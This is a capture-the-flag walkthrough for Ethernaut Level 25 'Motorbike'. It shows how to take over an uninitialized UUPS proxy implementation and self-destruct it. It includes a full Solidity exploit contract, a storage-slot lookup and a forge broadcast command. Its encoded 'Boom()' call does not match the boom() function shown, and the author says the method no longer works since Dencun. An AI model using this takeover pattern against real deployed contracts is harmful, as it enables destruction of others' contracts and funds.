

<div align="center">
<p align="left">(<a href="https://github.com/Pedrojok01/Ethernaut-Solutions?tab=readme-ov-file#solutions">back</a>)</p>


<br><br>
<h1><strong>Ethernaut Level 25 - Motorbike</strong></h1>

</div>
<br>

Read the article directly on my blog: [Ethernaut Solutions | Level 25 - Motorbike](https://blog.pedrojok.com/the-ethernaut-ctf-solutions-25-motorbike)

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Goals](#goals)
- [The hack](#the-hack)
  - [Dencun upgrade (Feb 2024)](#dencun-upgrade-feb-2024)
  - [Old solution](#old-solution)
- [Solution](#solution)
- [Takeaway](#takeaway)

## Goals



## The hack

### Dencun upgrade (Feb 2024)

NOTE: The "old" solution for this challenge is not working anymore since the Dencun upgrade. The issue comes from the new behavior of the `selfdestruct` opcode which doesn't remove the contract's bytecode unless the contract is created AND self-destructed in the same transaction. See [EIP6780](https://eips.ethereum.org/EIPS/eip-6780).

> <i>Contract Self Destructed, but was later reinitalized with new ByteCode</i>

However, according to this github thread, it seems that it is still doable:
https://github.com/OpenZeppelin/ethernaut/issues/701

I will update if I crack it. For information purposes, I have kept the old solution below.

### Old solution

In order to self-destruct the `Engine` contract, we need to upgrade it to a new implementation since there is no `selfdestruct()` in this one. We can call the `upgradeToAndCall()` function for that, but we first need to become the `upgrader` inside the `Engine` contract to pass the `_authorizeUpgrade()` access check.

```javascript
function _authorizeUpgrade() internal view {
    require(msg.sender == upgrader, "Can't upgrade");
}
```

There is no way to do that by calling the Motorbike contract directly. But, we see that the Motorbike contract is using a delegatecall to initialize the Engine contract. This means that, as far as the Engine knows, `Engine::upgrader` hasn't been set yet (still `address(0)`), so we can call the `initialize()` function from our exploit contract directly.

Let's get the current Engine implementation address:

- In your Ethernaut browser console:

```javascript
await web3.eth.getStorageAt(
  instance,
  "0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc"
  // => 0x000000000000000000000000239bcf976042946e51690c2de9fea5d017eb282c
  // => 0x239bcf976042946e51690c2de9fea5d017eb282c
);
```

- In Foundry using `forge`:

```java
address engine = address(
            uint160(
                uint256(
                    vm.load(
                        motorbikeInstance,
                        0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc
                    )
                )
            )
        );
```

Then, we can upgrade the Engine contract to a new implementation address with the `upgradeToAndCall()` function and call the `boom()` function to self-destruct it.

## Solution

Let's implement the code accordingly:

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

interface IEngine {
    function initialize() external;

    function upgradeToAndCall(
        address newImplementation,
        bytes memory data
    ) external payable;
}

contract Bicycle {
    IEngine private immutable engine;

    constructor(address _engine) {
        engine = IEngine(_engine);
    }

    function attack() public {
        // 1. Initialize the engine contract
        engine.initialize();
        // 2. Upgrade the engine contract to a new implementation and kill it
        engine.upgradeToAndCall(
            address(this),
            abi.encodeWithSignature("Boom()")
        );
    }

    function boom() external {
        selfdestruct(payable(msg.sender));
    }
}
```

You can run the script with the following command:

```bash
forge script script/25_Motorbike.s.sol:PoC --rpc-url sepolia --broadcast --verify --etherscan-api-key $ETHERSCAN_API_KEY --watch
```

## Takeaway

- UUPS Proxies are better than the older EIP-1967 proxies but still need to be carefully implemented.
- Sensitive functions such as contract upgrades should be protected by access control.

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
